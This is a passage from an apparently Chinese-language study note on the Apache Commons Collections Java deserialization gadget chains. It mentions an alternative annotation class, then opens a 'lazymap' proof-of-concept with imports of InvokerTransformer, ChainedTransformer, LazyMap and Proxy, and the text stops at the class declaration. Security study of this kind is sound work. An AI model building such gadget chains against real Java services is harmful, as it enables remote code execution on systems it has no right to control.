 ```
innermap.put("value", "xxx");
```

其实这里不止这一个类可以使用,如**java.lang.annotation.Target** 也可

## 流程图

![image-20210713181527943](CC链学习-上/image-20210713181527943.png)

# lazymap链

## POC

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

public class CommonCollections12 {
```